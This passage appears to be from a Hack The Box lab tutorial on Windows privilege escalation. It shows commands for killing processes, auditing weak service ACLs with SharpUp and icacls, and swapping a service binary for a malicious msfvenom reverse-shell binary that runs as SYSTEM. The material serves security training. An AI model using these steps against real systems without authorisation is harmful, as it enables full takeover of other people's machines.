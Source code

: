 #### Executing SystemPropertiesAdvanced.exe on Target Host
Before proceeding, we should ensure that any instances of the `rundll32` process from our previous execution have been terminated.
```cmd
C:\htb> tasklist /svc | findstr "rundll32"
rundll32.exe                  6300 N/A
rundll32.exe                  5360 N/A
rundll32.exe                  7044 N/A

C:\htb> taskkill /PID 7044 /F
SUCCESS: The process with PID 7044 has been terminated.

C:\htb> taskkill /PID 6300 /F
SUCCESS: The process with PID 6300 has been terminated.

C:\htb> taskkill /PID 5360 /F
SUCCESS: The process with PID 5360 has been terminated.
```
Now, we can try the 32-bit version of `SystemPropertiesAdvanced.exe` from the target host.
```cmd
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

## Weak Permissions
We need to understand how permission misconfiguration can be used to escalate privs.
Services usually install with SYSTEM privileges, so leveraging a service permissions-related flaw can often lead to complete control over the target system.

### Permissive File Systems ACLs
#### Running SharpUp
We can use [SharpUp](https://github.com/GhostPack/SharpUp/) from the GhostPack suite of tools to check for service binaries suffering from weak ACLs.
```powershell-session
.\SharpUp.exe audit
```
This identifies weak services.

#### Checking Permissions with icacls
Using [icacls](https://ss64.com/nt/icacls.html) we can verify the vulnerability and see that the `EVERYONE` and `BUILTIN\Users` groups have been granted full permissions to the directory, and therefore any unprivileged system user can manipulate the directory and its contents.
```powershell-session
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

#### Replacing Service Binary
This service can be started by unprivileged users and we can replace the binary with a malicious *msfvenom* binary to give us a reverse shell as `system`.
```cmd-session
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```
```cmd-session
sc start SecurityService
```
